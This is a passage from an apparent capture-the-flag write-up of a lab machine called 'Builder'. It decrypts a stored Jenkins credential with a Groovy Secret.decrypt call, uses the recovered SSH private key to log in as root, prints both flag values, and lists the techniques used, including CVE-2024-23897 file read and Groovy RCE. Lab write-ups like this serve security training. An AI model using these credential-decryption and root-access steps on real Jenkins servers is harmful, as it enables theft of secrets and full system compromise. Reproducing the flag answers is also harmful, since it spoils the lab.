

Copy and save it

```
{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}
```

A groovy script function to decrypt the strings can be found by searching. https://stackoverflow.com/questions/37683143/extract-passphrase-from-jenkins-credentials-xmlcan



```
println( hudson.util.Secret.decrypt("<{ENCRYPTED_STRING}>") )
```

Using the script function to decrypt the string



With this command can recover the SSH private key

Copy all and save it to `id_rsa`

Narrow key permissions to user

```
chmod 600 id_rsa
```

As the SSH private key was found under `root` named entry, try to connect as root.

```
ssh -i id_rsa root@10.129.230.220
```



Connected as root to the target system `builder` with IP: 10.129.230.220

Capture user flag

```
find / -name user.txt 2>/dev/null
```

`/home/jennifer/user.txt`

```
cat /home/jennifer/user.txt
```



user.txt: `8ea6d23733ba6ce641ac8d20871a61e5`

Capture root flag

```
cat /root/root.txt
```



root.txt: `c7a1eab859cb28e73e62772161c5e58b`

End: 2026-11-12 20:30

---
#### Post testing
##### Time frame
Start: 2026-11-12 18:30
End: 2026-11-12 20:30

Total time: 2h
##### Techniques
- Arbitrary file read / LFI affecting Jenkins 2.441 (CVE-2024-23897)
- Jenkins configuration files disclose account ID and password hash
- Abusing Jenkins Script (Groovy script) function for RCE and app secrets decryption
- Reading confidential secret (SSH private Key) stored in Jenkins Credentials
##### Sources
- Jenkins official site: https://www.jenkins.io
- Exploit for Jenkins 2.441 LFI: https://www.exploit-db.com/exploits/51993
- Jenkins config paths:
	- https://stackoverflow.com/questions/6131114/where-does-jenkins-store-configuration-files-for-the-jobs-it-runs
	- https://github.com/discover-devops/JenkinsMaven/blob/main/Jenkins_Default_COnfig_File.md 
- *(Hint)* IppSec video: https://www.youtube.com/watch?v=jYCOIf9Fcmo
- Groovy script: 
	- System command execution: https://stackoverflow.com/questions/159148/groovy-executing-shell-commands
	- Secret decryption command: https://stackoverflow.com/questions/37683143/extract-passphrase-from-jenkins-credentials-xmlcan
